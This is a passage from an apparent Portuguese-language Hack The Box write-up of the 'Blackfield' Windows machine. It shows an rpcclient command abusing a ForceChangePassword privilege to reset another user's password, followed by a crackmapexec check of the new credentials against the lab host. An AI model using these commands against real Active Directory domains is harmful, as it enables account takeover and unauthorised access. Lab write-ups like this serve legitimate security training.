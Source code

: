 ![Video Bloodhound](Assets/HTB-Windows-Hard-Blackfield/Animation.webp)

Com a ajuda do BloodHound, vemos que o usuário support tem privilégio "ForceChangePassword" sobre o usuário Audit2020. Isso quer dizer que, podemos alterar a password de Audit2020 sem precisar saber a password actual dele.

Existem muitas maneiras de se fazer isso localmente, mas a partir de fora, sem RCE, apenas podemos mudar a password por RPC, e validar as novas credenciais...

```powershell
rpcclient 10.10.10.192 -U 'support%#00^BlackKnight' -c 'setuserinfo2 Audit2020 23 J4v4li123!'
crackmapexec smb 10.10.10.192 -u 'Audit2020' -p 'J4v4li123!'
```

## SMB

Conseguimos alterar a password com sucesso! O nome do usuário Audit2020 é suspeito de ter qualquer coisa a ver com uma das pastas partilhadas que vimos, a forensic! Vamos verificar se temos acesso

![Crackmapexec smb Audit](Assets/HTB-Windows-Hard-Blackfield/crackmapexec-audit2020.png)
